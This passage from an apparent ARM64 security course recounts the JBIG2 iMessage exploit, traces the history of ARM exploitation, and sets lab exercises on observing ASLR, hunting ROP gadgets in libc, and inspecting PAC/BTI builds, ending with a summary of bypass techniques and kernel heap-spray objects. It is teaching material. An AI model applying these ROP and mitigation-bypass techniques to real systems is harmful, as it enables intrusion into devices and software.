The attack path: A malformed PDF was sent via iMessage. The PDF triggered a bug in CoreGraphics' JBIG2 decoder — a format from the 1990s. The JBIG2 decoder's arithmetic operations were abused to create a Turing-complete virtual machine inside the decoder itself, using AND/OR/XOR operations on bitmap regions as logic gates. This VM bootstrapped a second-stage exploit that escaped the IMTranscoderAgent sandbox.
ARM64-specific elements: The exploit had to defeat PAC (iPhone's ARM64e enforcement), ASLR (with limited leak primitives since no JavaScript engine was involved), and the BlastDoor sandbox (introduced in iOS 14 specifically to harden iMessage). The JBIG2 VM approach was chosen precisely because it operated within data-only memory regions, never executing attacker-controlled code — bypassing both PAC and BTI entirely by avoiding any modification of code pointers.
Impact: Apple patched the vulnerability in iOS 14.8. Google's analysis called it "one of the most technically sophisticated exploits we've ever seen." It demonstrated that even PAC + BTI + ASLR + sandbox layering can be circumvented when the attacker builds a computation engine entirely within data-processing logic.
ARM Exploitation: From Simple Overflows to Defence-Aware Chains (2005–2024)
2005–2010 — The Easy Years: Early ARM exploits (targeting Windows Mobile, early Android) used textbook stack buffer overflows. No ASLR, no canaries, no NX bit on ARMv5/v6. Shellcode was injected directly onto the stack and jumped to — identical to 1990s x86 exploitation but with Thumb/ARM encoding quirks.
2011–2015 — ASLR and NX Arrive: Android 4.1 (2012) enabled full ASLR. ARM added the XN (Execute Never) bit in page tables. Exploiters pivoted to ROP — the same transition that x86 went through 5–7 years earlier. AArch64's larger register file (31 GPRs) and consistent 4-byte instruction width made gadget finding cleaner than on ARM32's mixed ARM/Thumb encoding.
2016–2020 — PAC and Hardware Defences: Apple's A12 Bionic (2018) shipped FEAT_PAUTH — the first commercial PAC implementation. Research teams (PACMAN at MIT, 2022) demonstrated speculative execution could bypass PAC. Kernel exploitation shifted from code-pointer corruption to data-only attacks (overwriting cred structs, modifying selinux_enforcing).
2021–2024 — MTE and the Data-Only Era: ARMv8.5 MTE began appearing in production (Pixel 8, 2023). Google and Android adopted MTE for both heap and stack protection. Exploit development focused increasingly on logic bugs (race conditions, TOCTOU) rather than memory corruption, as PAC + BTI + MTE raised the cost of traditional memory exploitation to the point where only nation-state actors consistently succeed.
Hands-On Exercises
ASLR Observation & Information Leak
Write a C program that prints the addresses of main(), a stack variable, a heap allocation, and printf() from libc. Run it 10 times with ASLR enabled and 10 times with ASLR disabled. Calculate the entropy for each region.
// aslr_probe.c — observe ASLR randomisation on ARM64
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
int main(void)
{
int stack_var = 42;
void *heap_var = malloc(64);
printf("=== ASLR Probe ===\n");
printf("main() = %p (code/PIE)\n", (void *)main);
printf("stack_var = %p (stack)\n", (void *)&stack_var);
printf("heap_var = %p (heap)\n", heap_var);
printf("printf = %p (libc)\n", (void *)printf);
printf("Δ libc-main = 0x%lx\n",
(uintptr_t)printf - (uintptr_t)main);
free(heap_var);
return 0;
}
// Compile and run:
// aarch64-linux-gnu-gcc -pie -fPIE -O0 -o aslr_probe aslr_probe.c
// for i in $(seq 1 10); do qemu-aarch64 -L /usr/aarch64-linux-gnu ./aslr_probe | grep main; done
// setarch aarch64 -R qemu-aarch64 -L /usr/aarch64-linux-gnu ./aslr_probe # ASLR offExpected Learning: With ASLR, addresses change each run but offsets between symbols in the same region remain constant — demonstrating why a single leak defeats entire-module ASLR.
ROP Gadget Hunting with Ropper
Install Ropper and search for gadgets in the AArch64 libc.so.6. Find gadgets to: (1) load x0 from the stack, (2) load x8 from the stack, (3) execute svc #0. Construct a payload layout (on paper) that would call write(1, "PWNED", 5) via the __NR_write syscall (64).
# Install ropper
pip install ropper
# Search for useful gadgets in ARM64 libc
ropper --file /usr/aarch64-linux-gnu/lib/libc.so.6 --arch ARM64 \
--search "ldr x0"
# Find stack-loading gadgets
ropper --file /usr/aarch64-linux-gnu/lib/libc.so.6 --arch ARM64 \
--search "ldp x0, x1, [sp"
# Find syscall gadgets
ropper --file /usr/aarch64-linux-gnu/lib/libc.so.6 --arch ARM64 \
--search "svc"
# Count total available gadgets
ropper --file /usr/aarch64-linux-gnu/lib/libc.so.6 --arch ARM64 \
--search "ret" | wc -l
# For write(1, buf, 5): x0=1, x1=buf_addr, x2=5, x8=64
# Sketch your chain: gadget1 (set x0,x1) → gadget2 (set x2,x8) → svcExpected Learning: AArch64 has abundant ldp-based gadgets (loading two registers from stack simultaneously) due to the calling convention's prologue/epilogue pattern — making chain construction easier than on ARM32.
Compile & Inspect BTI/PAC Protection
Compile a simple program with -mbranch-protection=standard (PAC + BTI) and without it. Disassemble both binaries and compare function prologues. Count the number of BTI, PACIASP, and AUTIASP instructions in each. Then use readelf to verify the GNU property notes.
# Create test program with indirect calls
cat > cfi_test.c <<'EOF'
#include <stdio.h>
typedef int (*fn_ptr)(int);
int double_it(int x) { return x * 2; }
int triple_it(int x) { return x * 3; }
int apply(fn_ptr f, int x) { return f(x); }
int main(void) {
fn_ptr funcs[] = { double_it, triple_it };
for (int i = 0; i < 2; i++)
printf("Result: %d\n", apply(funcs[i], 21));
return 0;
}
EOF
# Compile WITHOUT protection
aarch64-linux-gnu-gcc -O2 -o cfi_none cfi_test.c
aarch64-linux-gnu-objdump -d cfi_none | grep -cE "bti|paciasp|autiasp"
# Compile WITH PAC+BTI
aarch64-linux-gnu-gcc -O2 -mbranch-protection=standard \
-march=armv8.5-a -o cfi_prot cfi_test.c
aarch64-linux-gnu-objdump -d cfi_prot | grep -cE "bti|paciasp|autiasp"
# Compare function prologues
echo "=== Without protection ==="
aarch64-linux-gnu-objdump -d cfi_none | grep -A5 "<double_it>:"
echo "=== With PAC+BTI ==="
aarch64-linux-gnu-objdump -d cfi_prot | grep -A5 "<double_it>:"
# Verify ELF notes
aarch64-linux-gnu-readelf -n cfi_prot | grep -A3 "NT_GNU_PROPERTY"Expected Learning: Protected binaries add PACIASP (which doubles as BTI C landing pad) at every function entry and AUTIASP before every RET. The GNU property note signals the dynamic linker to enable BTI enforcement in page table permissions.
Summary
ARM64 security research demands assembly-level fluency. The AArch64 calling convention, link-register return mechanism, and 64-bit virtual address space all shape the exploit primitive landscape:
- ASLR — 28-bit entropy; defeated via information leaks (stack over-reads, format strings, UAF, side-channels).
- Stack canaries — bypassed by leak-then-overwrite or byte-level partial overwrites, with brute-force against forked servers.
- PAC — signs return addresses with cryptographic MACs; oracle attacks require a sign/authenticate primitive coupled with a crash-rate oracle under a narrow entropy window.
- ROP on AArch64 — gadgets terminate in
ret; AAPCS provides 8-argument registers to set via load gadgets;ldpinstructions create compact multi-register setup gadgets. - JOP — replaces
retwithbr x0; needs a dispatcher gadget; BTI enforcement in production binaries shrinks JOP gadget surfaces dramatically. - Kernel exploitation — UAF via slab with cross-cache heap spray remains the dominant pattern;
msg_msgandpipe_bufferare the canonical spray objects. - Defences — BTI (hardware), PAC (hardware), LLVM CFI (software), MTE (hardware), Shadow Call Stack (software) create a layered security model where each layer independently raises the exploit cost.